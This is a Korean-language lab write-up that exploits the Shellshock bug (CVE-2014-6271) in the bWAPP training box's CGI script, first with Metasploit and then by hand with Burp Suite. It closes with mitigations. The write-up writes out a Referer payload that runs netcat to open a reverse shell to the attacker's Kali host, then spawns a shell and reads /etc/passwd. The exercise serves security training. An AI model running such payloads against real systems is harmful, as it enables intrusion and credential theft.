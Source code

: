 ```yaml
---
title: "[bWAPP] 9. Using Known Vulnerable Components - Shellshock Vulnerability(CGI)"
---
```


<br>

## Using Known Vulnerable Components

- 알려진 취약점이 있는 컴포넌트 사용

- 웹 서비스를 운영하는 데 영역별로 다양한 모듈과 라이브러리 사용한다.

- 컴포넌트, 라이브러리, 프레임워크 및 다른 SW 모듈은 대부분 항상 전체권한으로 실행되는데

  이러한 취약한 컴포넌트를 악용하여 데이터 유실 및 서버 권한 획득이 가능한 취약점이다.

<br><br>

## CGI(Common Gateway Interface)

- 서버와 애플리케이션(응용 프로그램) 간에 데이터를 주고받는 방법 또는 규약
- 서버가 클라이언트로부터 요청을 수신하면, 이 요청이 처리되어야 할 경우, 서버가 애플리케이션을 실행시키고 이에 대한 응답을 받는 기능을 수행
- WAS가 없었을 당시 Web Server에서 동적 콘텐츠를 처리하기 위해 CGI를 사용했었다.

![image-20220210131116114](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220210131116114.png)

참조 : https://live-everyday.tistory.com/197

<br><br>

## Shellshock Vulnerability(CGI)

### GNU Bash

- 2014년 09월 24일 발견
- CVE-2014-6271

<br>

### Shellshock

- 이 취약점은 Bash 셸에서 환경 변수의 함수 선언문 뒤인 헤더에 임의의 명령어 () {:;}; 와 실행시킬 명령어를 삽입하게되면  환경변수 선언 후 뒤 명령어까지 실행되는 공격
- 공격자는 시스템의 보안을 우회하여 명령어를 실행 가능

<br>

### Bash Shell

- 사용자가 CLI 기반에서 명령어를 입력하면 OS가 이에 대응하는 동작하게 하는 명령어 해석기
- 프로세스 환경을 이용하여 다른 셸 인스턴스에 환경변수뿐 아니라 셸 함수를 선언하는 기능을 제공
- 함수 선언문에서 반복문으로 멈추지 않고 마지막까지 진행하여 추가된 셸 명령어까지 실행

<br>

### Bash Shell Bug

- Bash로 해당 명령을 실행했을 때, 그에 대응하는 결과 뿐만 아닌 다른 결과까지 실행하는 버그

![image-20220210131154301](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220210131154301.png)

<br><br>

## bWAPP

### 문제

![image-20220210131211844](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220210131211844.png)

- HINT : referer 헤더를 공격하여 아래 박스를 해킹하라

<br><br>

## Kali - msfconsole

### 실행

![image-20220210131230277](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220210131230277.png)

![image-20220210131359593](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220210131359593.png)

![image-20220210131418769](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220210131418769.png)

- 공격대상 : referer
- CVE - 2014 - 6271 메타스플로잇 모듈 : exploit/multi/http/apache_mod_cgi_bash_env_exec

<br>

### CGI 스크립트 경로  - 개발자 도구(F12)

![image-20220210131444262](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220210131444262.png)

- 문제 HINT의 pwn this box 가 CGI 스크립트
- CGI 스크립트 경로 : /bWAPP/cgi-bin/shellshock.sh

<br>

### exploit - set

![image-20220122012459767](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220122012459767.png)

- header 는 referer
- rhosts 는 비박스 IP
  - (버프수트로 진행했을 때는 다른 공유기 환경이었으므로 각 환경별로 비박스와 칼리 IP 다름 유의)

- 경로 : CGI 스크립트
- check로 설정 확인

<br>

### Exploit

![image-20220122012758669](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220122012758669.png)

- exploit 실행
- cat 명령어로 비박스 사이트 패스워드 정보 열람

<br><br>

## Kali - BurpSuite

### Netcat

![image-20220122013021061](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220122013021061.png)

- netcat 명령어로 8888번 포트 열기

### BurpSuite - 1

![image-20220213185550901](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220213185550901.png)

- 패킷 가로챔
- Forward 눌러서 한 번 넘겨줘서 헤더의 주소가 GET /bWAPP/cgi-bin/shellshock.sh HTTP/1.1로 바뀌게하기

### BurpSuite - 2

![image-20220213185959588](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220213185959588.png)

- Referer에 Shellshock 공격하기위해 환경변수 명령어와 () {:;}; 입력
- Referer: () { :;}; /bin/nc [칼리 IP] [포트 번호] -e /bin/bash

### BurpSuite - 3

![image-20220213185738636](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220213185738636.png)

- Forward 후 intercept off 누르기

<br>

### Kali

![image-20220213190149086](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220213190149086.png)

- 변조한 패킷 보내게 되면 페이지는 계속 로딩, 칼리는 쉘이 연결됨
- 172.30.1.19는 bee-box IP
- 172.30.1.8은 Kali IP

<br>

### 명령어 수행

![image-20220122013907098](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220122013907098.png)

- 비박스 서버 쉘 획득
- python -c "import pty;pty.spawn('/bin/bash')" 명령어를 통해 프롬프트 생성
- cat /etc/passwd 로 패스워드 정보 열람

## 대응방안

- 취약한 버전 4.3 이전의 Bash를 업데이트하거나 CGI 제거
- 보안장비(IDS, IPS)를 통해 Shellshock 취약점 공격 문자열인 () { 문자열을 검열하여 차단
- 서비스에서 입력 값에 대한 검증을 임시로 추가하여 대응
